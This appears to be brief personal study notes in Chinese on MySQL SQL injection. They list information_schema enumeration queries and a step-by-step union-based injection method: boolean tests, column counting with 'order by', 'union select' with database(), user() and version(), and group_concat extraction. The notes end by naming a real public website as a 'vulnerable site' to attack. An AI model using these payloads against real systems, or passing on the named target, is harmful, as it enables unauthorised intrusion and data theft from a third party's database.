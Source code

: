 * 1. information_schema数据库存储整个mysql数据库的数据信息,包括mysql里面所有的库,表,字段的关系结构
** 查询库名 select schema_name from information_schema.schemata
** 查询表名 select table_name from information_schema.tables where table_schema='库'
** 查询字段名 select column_name from information_schema.columns where table_name='表'
** 查询字段 select 段 from 库.表

* 2. union注入
** 判断sql注入 and 1=1 不变 and 1=2 为空
** 判断字段数 order by 数字 直到页面出现异常
** 合并字段查询 union select 1,2,3...
** 替换可显示字段 union select 1,2,database(),4... database()获取当前数据库,user()获取用户表,version()获取版本信息
** 根据数据库利用sql语句查询表名,字段名,字段值
** union select group_concat(...,0x3c2f62723e)  from ... where ... (limit begin,length)

* 3. 漏洞网站
** www.bible-history.com

